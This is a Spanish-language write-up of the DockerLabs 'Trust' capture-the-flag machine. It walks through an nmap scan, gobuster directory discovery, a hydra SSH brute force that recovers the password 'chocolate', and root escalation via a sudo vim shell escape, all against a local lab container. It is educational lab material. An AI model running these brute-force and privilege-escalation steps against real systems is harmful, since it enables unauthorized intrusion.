

# 🖥️ Writeup - Trust 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip trust.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh trust.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 17:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Entramos por el puerto `80` y vemos que solo hay una página por defecto de `Apache2`.

# GOBUSTER

Realizamos `fuzzing` de directorios para localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
Progress: 541850 / 1543899 (35.10%)`
```

Encontramos un archivo llamado `secret.php`, al que accedemos desde el navegador.



El mensaje que aparece nos hace pensar que podría existir un usuario `mario` en el sistema.

# FUERZA BRUTA

Asumiendo que existe este usuario, intentamos obtener sus credenciales mediante un ataque de `fuerza bruta` por `SSH`.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 17:12:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
```

Obtenemos credenciales para el usuario `mario` : `chocolate`.

Accedemos por `SSH`.

```bash
ssh mario@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for mario on 81fcf48571ad:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 81fcf48571ad:
    (ALL) /usr/bin/vim
```

Comprobamos que podemos ejecutar el binario `vim` con privilegios de `root`, lo cual explotamos de la siguiente manera:

```bash
sudo vim -c ':!/bin/sh'
```

Info:
```
# whoami
root
#
```

Ya somos root!